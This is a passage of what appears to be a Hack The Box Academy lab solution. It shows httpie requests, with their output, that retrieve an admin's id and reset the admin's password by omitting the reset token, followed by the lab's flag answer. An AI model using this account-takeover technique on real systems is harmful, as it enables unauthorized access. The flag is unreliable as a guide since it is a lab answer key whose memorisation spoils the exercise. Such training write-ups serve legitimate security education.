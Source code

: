 Code: shell

```shell
http POST http://STMIP:STMPO/api/users/details email=htb-admin@hackthebox.com id:=0 | jq
```

```
┌─[eu-academy-1]─[10.10.15.165]─[htb-ac-413848@htb-aozc0qnha1]─[~]
└──╼ [★]$ http POST http://94.237.59.206:55496/api/users/details email=htb-admin@hackthebox.com id:=0 | jq

{
  "user": {
    "id": "64f742ef9da9933e4dcdb56a",
    "name": "HTB Admin",
    "username": "htb-admin",
    "email": "htb-admin@hackthebox.com",
    "registrationDate": "2023-01-01T00:00:00.000Z"
  }
}
```

Subsequently, students need to exploit the null safety issue (by not passing the `token` field) to reset the password of `htb-admin` by sending a POST request to the `api/users/password/reset` endpoint (mapped to `src/src/controllers/users-controllers.js`, lines 272-353), along with the `id` `64f742ef9da9933e4dcdb56a` and the new reset password as POST parameters:

Code: shell

```shell
http POST http://STMIP:STMPO/api/users/password/reset id=64f742ef9da9933e4dcdb56a password=68906e60fffc40 | jq
```

```
┌─[eu-academy-1]─[10.10.15.165]─[htb-ac-413848@htb-aozc0qnha1]─[~]
└──╼ [★]$ http POST http://94.237.59.206:55496/api/users/password/reset id=64f742ef9da9933e4dcdb56a password=68906e60fffc40 | jq

{
  "message": "Password updated successfully!"
}
```

Subsequently, after visiting the root webpage of the spawned target machine and signing in using the email `htb-admin@hackthebox.com` and the reset password chosen previously, students will have enough cubes to unlock the "Introduction to Academy" module:

![[HTB Solutions/CWEE/z. images/300a2a1fff5692dfd403409047448233_MD5.jpg]]

Students will attain the flag `HTB{nu11_n07_50_50und}` in the module's first section:

![[HTB Solutions/CWEE/z. images/bebc0695ea5f4c79e632ad71b7ec33df_MD5.jpg]]

Answer: `HTB{nu11_n07_50_50und}`

# Skill Assessment - Parameter Logic Bugs
